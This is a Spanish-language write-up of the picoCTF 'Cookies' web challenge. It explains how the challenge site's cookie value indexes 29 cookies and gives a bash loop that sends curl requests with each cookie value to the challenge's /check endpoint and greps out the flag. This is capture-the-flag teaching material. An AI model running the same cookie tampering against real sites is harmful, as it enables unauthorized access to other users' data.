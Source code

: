 ### Cookies
## Objetivo
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/)
## Datos de acceso al nivel
## Solución
La cookie tiene el vlor de -1. "snickerdoodle" es el texto predeterminado en la barra de búsqueda. Lo enviamos "snickerdoodle" al sitio web y al verificar la cookie  /check y tendrá el valor de 0.

Buscando el rango encontré que hay 29 cookies posibles (0-28). En uno está la bandera.

Escribí un script para iterar a través de las posibles cookies e identificar cuál tenía la bandera. 

```bash
    #!/bin/bash
    for i in {0..28}
    do
        curl --cookie "name=$i" "http://mercury.picoctf.net:54219/check"
    done
```

Para ejecutar el script anterior, ejecute lo siguiente en la CLI de Linux: `chmod +x cookie.sh && ./cookie.sh | grep -oE "picoCTF{.*}" > flag.txt`

La bandera se guardará en un archivo de texto llamado flag.txt.
## Notas adicionales
Las cookies HTTP son pares clave-valor que se utilizan para identificar su dispositivo mientras navega por un sitio web. Una cookie es exclusiva de la sesión de un usuario.
EditThisCookie --> Es una extensión del navegador que le permite ver y modificar las propiedades de las cookies.
## Referencias
[Cookie properties - EditThisCookie](https://www.editthiscookie.com/blog/2014/03/cookie-properties/)
